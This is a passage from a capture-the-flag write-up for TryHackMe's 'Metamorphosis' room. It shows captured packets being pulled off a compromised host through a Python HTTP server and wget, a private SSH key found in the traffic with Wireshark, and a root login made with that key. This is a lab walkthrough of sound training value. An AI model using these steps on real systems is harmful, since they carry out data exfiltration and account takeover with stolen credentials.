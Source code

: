We've captured 11 packets!

**Let's transfer the captured packets!**
```shell
www-data@incognito:/var/www/html$ cd /tmp
www-data@incognito:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# wget http://$RHOSTS:8000/sniffing.cap
```

**After that, we can use WireShark to inspect those packets:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# wireshark sniffing.cap
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111042017.png)

**Let's follow that HTTP stream!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111042109.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111042126.png)

**Found a private SSH key!**

**Let's copy and paste that to our attacker machine:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# nano key     
                                                                                                       
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# chmod 600 key
```

**Then we should be able to SSH into `root`!**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# ssh -i key root@$RHOSTS        
[...]
root@incognito:~# whoami;hostname;id;ip a
root
incognito
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:cb:fe:54:e3:8d brd ff:ff:ff:ff:ff:ff
    inet 10.10.14.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3139sec preferred_lft 3139sec
    inet6 fe80::cb:feff:fe54:e38d/64 scope link 
       valid_lft forever preferred_lft forever
```
